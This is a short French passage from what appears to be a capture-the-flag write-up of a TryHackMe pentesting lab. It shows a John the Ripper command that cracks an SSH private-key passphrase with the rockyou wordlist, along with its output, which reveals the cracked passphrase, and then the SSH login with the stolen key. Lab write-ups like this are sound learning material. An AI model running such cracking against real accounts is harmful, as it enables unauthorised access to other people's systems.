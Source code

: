 Ensuite on utilise "john" pour récupérer la passphrase ssh de kay

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt >> Rapport.md

Created directory: /home/kota/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<code style="color : green">beeswax          (id_rsa.txt)</code>     
1g 0:00:00:00 DONE (2024-07-12 11:06) 33.33g/s 2757Kp/s 2757Kc/s 2757KC/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

Il nous reste plus qu'à se connecter en ssh en utilisant la clé de kay ainsi que sa passphrase

<img src="https://github.com/kota-shen/Writeup-CTF/blob/main/tryhackme/Basic%20Pentesting/Screenshot_2024-07-12_11-11-48.png"/>
